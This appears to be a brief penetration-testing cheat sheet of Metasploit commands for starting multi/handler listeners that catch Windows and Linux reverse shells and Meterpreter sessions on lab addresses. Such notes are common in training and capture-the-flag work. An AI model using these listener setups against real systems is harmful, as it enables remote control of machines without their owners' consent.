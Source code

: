 # Metasploit
use exploit/multi/handler

## 32 vs 64 bits
set payload windows/meterpreter/reverse_tcp
set payload linux/x64/shell/reverse_tcp

## netcat
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lport 10443
set lhost 10.10.14.10
run

## meterpeter listener
use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST 10.9.1.214 
set LPORT 10444
run
